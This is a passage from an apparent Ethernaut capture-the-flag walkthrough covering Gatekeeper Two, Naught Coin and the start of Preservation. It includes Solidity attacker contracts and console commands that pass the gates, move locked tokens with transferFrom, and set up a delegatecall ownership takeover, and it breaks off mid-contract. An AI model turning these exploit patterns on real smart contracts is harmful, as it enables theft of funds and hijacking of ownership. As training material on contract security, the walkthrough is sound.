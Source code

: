     interface IGatekeeperTwo {
        function enter(bytes8 _gateKey) external returns (bool);
        function entrant() external view returns (address);
    }

    contract GK2Attacker {
        constructor (address _instance) {
            IGatekeeperTwo instance = IGatekeeperTwo(_instance);
            bytes8 myKey = bytes8(uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^ type(uint64).max);
            instance.enter(myKey);        
        }
    }

In the brownie console:

    attacker = GK2Attacker.deploy(instance, {'from': player})

    #check for success (should return your address):
    interface.IGatekeeperTwo(instance).entrant()

Submit the level and move on to the next!

## 16. Naught Coin

This is a very easy level that showcases how important it is to understand how inherited functions work. 

NaughtCoin is an ERC20 token. Since it inherits ERC20, anyone can call any of the public ERC20 functions on the NaughtCoin contract.

The `locktokens` modifier only affects the `transfer` function, but that isn't the only way to transfer ERC20 tokens. We also have access to `transferFrom` even if it isn't explicitly included in the NaughtCoin contract.
    
In the browser console:

    await contract.transferFrom(player, contract.address, await contract.balanceOf(player))

It's that simple - go ahead and submit the level.

## 17. Preservation

To beat this level, we need to claim ownership of the Preservation contract. 

Right away, we can see there are delegatecalls in the `setFirstTime` and `setSecondTime` functions, and the calls are being made to a function that alters the variable in the first storage slot.

I'll be using this contract to assist in my takeover:

    //SPDX-License-Identifier: MIT

    pragma solidity ^0.8.0;

    interface IPreservation {
        function setFirstTime(uint _timestamp) external;
    }
